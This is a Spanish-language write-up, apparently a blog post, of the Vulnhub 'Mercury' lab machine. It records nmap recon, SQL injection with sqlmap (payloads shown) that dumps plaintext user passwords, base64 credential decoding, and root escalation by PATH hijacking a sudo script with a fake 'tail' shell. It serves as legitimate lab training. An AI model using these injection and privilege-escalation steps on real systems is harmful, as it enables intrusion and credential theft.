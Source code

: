 ```yaml
---
title: "Vulnhub #4: Mercury"
description: Pentesting a máquina Mercury en Vulnhub
date: 2025-05-11
scheduled: 2025-05-11
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la maquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/the-planets-mercury,544/)

## Datos

IP Atacante: 192.168.0.25
IP Victima: 192.168.0.31

## Recon

### Nmap

```
datadiego@~ nmap -Pn 192.168.0.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 10:50 CET
Nmap scan report for 192.168.0.31
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

## Web

En la maquina hay un servidor http, en el index solo hay un mensaje en plano:

```
Hello. This site is currently in development please check back later.
```

Existe un robots.txt:

```
User-agent: * 
Disallow: /
```

Si intentamos entrar a cualquier otra pagina que no existe:

```

Page not found (404)
Request Method: 	GET
Request URL: 	http://192.168.0.31:8080/hello

Using the URLconf defined in mercury_proj.urls, Django tried these URL patterns, in this order:

    [name='index']
    robots.txt [name='robots']
    mercuryfacts/

The current path, hello, didn't match any of these.

You're seeing this error because you have DEBUG = True in your Django settings file. Change that to False, and Django will display a standard 404 page.
```

Ahora sabemos que el servidor es un django, y que existe un endpoint `mercuryfacts`.

Cuando accedemos a /mercuryfacts encontramos otros dos endpoints:

- /mercuryfacts/todo
- /mercuryfacts/:number

En la lista de /todo:
```
 Still todo:

    Add CSS.
    Implement authentication (using users table)
    Use models in django instead of direct mysql call
    All the other stuff, so much!!!
```

Lanzamos sqlmap:

```
sqlmap -u http://192.168.0.31:8080/mercuryfacts/ --dbs --batch
```

Encuentra lo siguiente:

```
sqlmap identified the following injection point(s) with a total of 1876 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: http://192.168.0.31:8080/mercuryfacts/GTID_SUBSET(CONCAT(0x7170706b71,(SELECT (ELT(7619=7619,1))),0x7170707a71),7619)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://192.168.0.31:8080/mercuryfacts/(CASE WHEN (5772=5772) THEN SLEEP(5) ELSE 5772 END)

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: http://192.168.0.31:8080/mercuryfacts/-9431 UNION ALL SELECT CONCAT(0x7170706b71,0x746152665350437975484f575550785542644a64465743704a555253535467456c67735377476378,0x7170707a71)#
---
[05:11:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[05:11:02] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

[05:11:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.0.31'

[*] ending @ 05:11:02 /2025-02-11/
```

Sacamos datos de las tablas con:

```
sqlmap -u http://192.168.0.31:8080/mercuryfacts/ --current-db -D mercury --batch --dump-all
```

Encontramos lo siguiente:

```
[05:50:50] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

Ningun usuario funciona en SSH excepto `webmaster`

Encontramos la user_flag.txt:

```
user_flag_8339915c9a454657bd60ee58776f4ccd
```

En `/etc/passwd` encontramos otro usuario:
linuxmaster:x:1002:1002:,,,:/home/linuxmaster:/bin/bash

Encontramos el hash de ambos:

```
webmaster@mercury:~$ cat mercury_proj/notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

Descodificamos la contraseña:

```
webmaster@mercury:~/mercury_proj/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```

Entramos por SSH o mediante `su linuxmaster` y comprobamos permisos con sudo -l:

```
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

Comprobamos el archivo:

```
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh 
#!/bin/bash
tail -n 10 /var/log/syslog
```

El comando se esta ejecutando directamente, sin especificar la ruta absoluta, por lo que es vulnerable a `path hijacking`.

Podemos hacer lo siguiente:

```
linuxmaster@mercury:~$ mkdir /tmp/malito
```

Dentro del directorio, creamos un `.sh` que ejecute una shell con nano:

```
#!/bin/bash
/bin/bash
```

Damos permisos con `chmod +x /tmp/malito/tail`.
Exportamos la variable con `export PATH=/tmp/malito:$PATH`
Ejecutamos el script utilizando la variable de entorno con `sudo --preserve-env=PATH /usr/bin/check_syslog.sh`

Obtenemos acceso a root!

```
linuxmaster@mercury:~$ cd /tmp/malito/
linuxmaster@mercury:/tmp/malito$ ls
linuxmaster@mercury:/tmp/malito$ nano tail
linuxmaster@mercury:/tmp/malito$ ls
tail
linuxmaster@mercury:/tmp/malito$ chmod +x /tmp/malito/tail 
linuxmaster@mercury:/tmp/malito$ export PATH=/tmp/malito:$PATH
linuxmaster@mercury:/tmp/malito$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 
[sudo] password for linuxmaster: 
root@mercury:/tmp/malito# whoami
root
root@mercury:/tmp/malito# 
```
